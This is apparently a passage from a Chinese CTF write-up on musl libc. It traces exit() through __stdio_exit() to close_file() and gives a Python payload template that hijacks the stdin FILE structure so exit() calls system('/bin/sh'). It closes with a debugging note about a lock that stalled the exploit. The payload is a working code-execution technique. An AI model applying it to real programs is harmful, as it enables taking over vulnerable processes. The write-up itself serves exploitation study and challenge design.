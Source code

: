 调用路径：`exit()->__stdio_exit()->close_file(__stdin_used)`。

exit()函数源码

```C=
_Noreturn void exit(int code)
{
    __funcs_on_exit();
    __libc_exit_fini();
    __stdio_exit();            		<------
    _Exit(code);
}
```

__stdio_exit()函数源码

```C=
void __stdio_exit(void)
{
    FILE *f;
    for (f=*__ofl_lock(); f; f=f->next) close_file(f);
    close_file(__stdin_used);  		<------	
    close_file(__stdout_used);
    close_file(__stderr_used);
}
```

close_file()函数源码

```C=
static void close_file(FILE *f)
{
    if (!f) return;
    FFINALLOCK(f);
    if (f->wpos != f->wbase) f->write(f, 0, 0); 						<------
    if (f->rpos != f->rend) f->seek(f, f->rpos-f->rend, SEEK_CUR);		<------
}
```

payload模版：
```python=
payload  = b'/bin/sh\x00'   # stdin->flags
payload += b'a' * 32
payload += p64(0xdeadbeef)  # stdin->wpos
payload += b'a' * 8
payload += p64(0xbeefdead)  # stdin->wbase
payload += b'a' * 8
payload += p64(system)      # stdin->write
```

踩坑点：

在出题的时候，拿到__stdin_FILE结构体的控制权后，也往该区域写入payload，调用exit()函数退出时，在close_file(__stdin_used)函数FFINALLOCK(f)这一步一直卡着过不去，不会走到下一行调用fwrite函数指针。

后来调试分析发现，我申请的大小是0x70，read函数读的长度也是0x70，实际发送payload只有0x50，可能读的时候会对__stdin_FILE结构体加锁，所以后面exit退出的时候尝试上锁也过不去了，把申请size改成0x50就没问题了。
